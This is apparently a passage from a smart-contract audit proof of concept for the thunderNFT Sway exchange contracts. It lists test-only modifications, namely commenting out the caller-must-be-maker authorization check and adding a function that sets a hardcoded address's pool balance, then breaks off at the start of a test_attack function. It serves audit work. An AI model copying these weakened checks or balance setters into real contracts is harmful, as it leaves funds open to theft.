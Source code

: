 ## NOTES TO TAKE IN MIND BEFORE RUNNING THE POC:

thunderNFT does not support sway test so we create one, and while sway is under development, there is some change we made to the in scope contracts to execute the POC:

- first we set the EXTRAPARAMS to public by adding `pub` keyword to it: this because sway test files does not allow using internal function or struct.

- in _validate_maker_order_input we commented the line below, because sway itself does not allow using msg.sender or control it so its possible to execute call to place_order with maker equal to msg.sender.

`    // require(input.maker == get_msg_sender_address_or_panic(), ThunderExchangeErrors::CallerMustBeMaker); // maker of order should be the caller
`

- we added a simple function to update the user balance in the pool:

this is because sway test files does not allow calling payable function with asset id and coins at all, so we need to find way to update the user pool balance to simulate user depositing tokens:

```sway
    #[storage(read, write)]
    fn update_balance(asset: AssetId, amount: u64) {
        let identity = Identity::Address( Address::from(0xf9b8b6283d7fa5b672b530cbb84fcccb4ff8dc40f8176ef4544ddb1f1952ad07));
        storage.balance_of.insert((identity, asset), amount); 
    }
```


## POC:

```sway 
contract;

 use interfaces::{
    thunder_exchange_interface::{ThunderExchange},
    royalty_manager_interface::*,
    asset_manager_interface::*,
    execution_manager_interface::ExecutionManager,
    execution_strategy_interface::*,
    pool_interface::Pool,
};

use libraries::{
    msg_sender_address::*,
    constants::*,
    order_types::*,
    ownable::*,
};

use std::{
    block::timestamp,
    auth::*,
    call_frames::*,
    context::*,
    contract_id::ContractId,
    logging::log,
    revert::require,
    storage::storage_map::*,
    asset::*,
};
 
#[test(should_revert)]
fn test_attack() {
```